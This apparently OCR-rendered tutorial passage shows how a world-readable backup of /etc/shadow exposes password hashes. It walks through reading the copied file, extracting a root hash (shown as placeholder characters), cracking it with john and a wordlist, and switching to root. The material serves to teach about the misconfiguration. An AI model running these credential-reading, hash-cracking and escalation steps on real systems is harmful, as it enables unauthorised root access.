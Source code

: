 ### Sensitive File /etc/shadow Backup Scenario

Let's create a backup of the `/etc/shadow` file, we shall never do the following:

```shell
sudo cp /etc/shadow /tmp/shadow.bak && sudo chmod o+r /tmp/shadow.bak
```

This is a Linux-sensitive file, this file contains the user password hashes and is now readable by other users and groups. As the adversary, we could attempt to crack the hashes of these users:

```shell
user@pwn:~$ cat /tmp/shadow.bak
root:$6$xxxxxxxxxxxxxxxxxxxxxxx:18982:0:99999:7:::
daemon:*:18858:0:99999:7:::
bin:*:18858:0:99999:7:::
sys:*:18858:0:99999:7:::
sync:*:18858:0:99999:7:::
<...SNIP...>
```

We can copy this hash and save it in a file called `hash.txt`:

```shell
❯ echo '$6$xxxxxxxxxxxxxxxxxxxxxxx' > hash.txt
```

We could then try to crack the hash to recover the password:

```shell
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

As we can see below, the password has been cracked:

```shell
❯ john hash.txt --show
?:pass123

1 password hash cracked, 0 left
```

Once we have cracked the root user password we can switch to the root user:

```shell
su root
```
